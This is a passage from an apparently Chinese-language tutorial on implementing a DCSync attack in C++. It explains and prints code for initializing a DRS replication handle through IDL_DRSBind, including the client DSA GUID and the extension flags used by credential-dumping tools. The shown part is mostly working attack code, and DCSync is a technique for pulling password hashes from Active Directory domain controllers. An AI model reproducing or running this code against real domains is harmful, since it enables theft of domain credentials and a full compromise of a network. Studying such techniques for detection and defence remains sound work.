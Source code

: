 ```c++
            return status;
        }
    }
    return status;
}
```

### 初始化 DRS 绑定句柄

Dcsync 函数首先定义了一个 DCSYNC_OIDS_EXPORT 数组，其中包含了要在域控获取更新的对象属性名称，为 OID 数据格式。接着调用自定义函数 Get_IDL_DRSBind，该函数定义如下。在 Get_IDL_DRSBind 内部通过 IDL_DRSBind 函数，由已创建的 RPC 绑定初始化 DRS 上下文句柄。

```c++
BOOL Get_IDL_DRSBind(RPC_BINDING_HANDLE rpc_handle, DRS_EXTENSIONS_INT* pextClientInt, DRS_HANDLE *phDrs)
{
	BOOL status = FALSE;
	ULONG drsStatus;
	GUID uuidClientDsa = { 0xe24d201a, 0x4fd6, 0x11d1, {0xa3, 0xda, 0x00, 0x00, 0xf8, 0x75, 0xae, 0x0d} };
	DRS_EXTENSIONS_INT* ppextServerInt = NULL;

	RpcTryExcept
	{
		RtlZeroMemory(pextClientInt, sizeof(DRS_EXTENSIONS_INT));
		pextClientInt->cb = sizeof(DRS_EXTENSIONS_INT) - sizeof(DWORD);
		pextClientInt->dwFlags = DRS_EXT_GETCHGREPLY_V6 | DRS_EXT_STRONG_ENCRYPTION;

		drsStatus = IDL_DRSBind(rpc_handle, &uuidClientDsa, (DRS_EXTENSIONS*)pextClientInt, (DRS_EXTENSIONS**)&ppextServerInt, phDrs);
		if (drsStatus == 0)
		{
			if (ppextServerInt)
			{
				if (ppextServerInt->cb >= FIELD_OFFSET(DRS_EXTENSIONS_INT, SiteObjGuid) - sizeof(DWORD))
				{
					if (ppextServerInt->dwFlags & (DRS_EXT_GETCHGREQ_V8 | DRS_EXT_STRONG_ENCRYPTION))
						status = TRUE;
					else 
						wprintf(L"[-] IDL_DRSBind Error: Incorrect DRS Extensions Output (%08x).\n", ppextServerInt->dwFlags);
				}
				else 
					wprintf(L"[-] IDL_DRSBind Error: Incorrect DRS Extensions Output Size (%u).\n", ppextServerInt->cb);
			}
			else
				wprintf(L"[-] IDL_DRSBind Error: No DRS Extensions Output.\n");
		}
	}
	RpcExcept(EXCEPTION_EXECUTE_HANDLER);
	{
		wprintf(L"[-] Exception: %d - 0x%08x.\r\n", RpcExceptionCode(), RpcExceptionCode());
	}
	RpcEndExcept
	{
		return status;
	}

	return status;
}

```